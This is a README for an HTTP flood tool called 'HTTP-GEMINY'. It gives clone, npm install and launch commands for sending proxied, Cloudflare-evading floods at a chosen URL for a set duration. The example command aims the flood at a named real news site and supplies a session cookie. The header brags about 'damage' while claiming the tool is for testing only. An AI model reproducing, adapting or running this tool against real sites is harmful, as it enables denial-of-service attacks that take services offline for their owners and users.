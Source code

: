 ######################################################################################################################################################################
#                                                                   SCRIPT REMASTERISED BY DARLINGSH & SST-SH FOR SST-DESTROYER.NET
#
# Made for test only this script is very powerfull on small server, 
#
# Made for test only this script is very powerfull on small server, more cpu ram more damage that logique
#
# HTTP-GEMINY
#
######################################################################################################################################################################

🧨 This script is encoded to prevent skido change script🧨

#Clone and Install Script

    git clone https://github.com/DarlingSh1337/HTTP-SENPAI/

    cd HTTP-GEMINY

#Installation Tutoriel for Skido

INSTALL NODEJ SAND NPM

apt install nodejs apt install npm

yum install nodejs yum install npm

    npm i request

    npm i cloudscraper
    
    npm i fs
    
    npm i crypto
    
    npm i hex
    
    npm i events

    CREATE OR UPDATE HTTP.TXT FILE IN DIRECTORY and put PROXYLIST on it

#Launch Script

    node http-geminy.js url proxylist.txt time method coockie(if you whant you dont need coockie)

    node http-geminy.js https://www.zataz.com/ http.txt 90 GET PHPSESSID:tisv10jeevnd5k7lrbt1a5h4l7


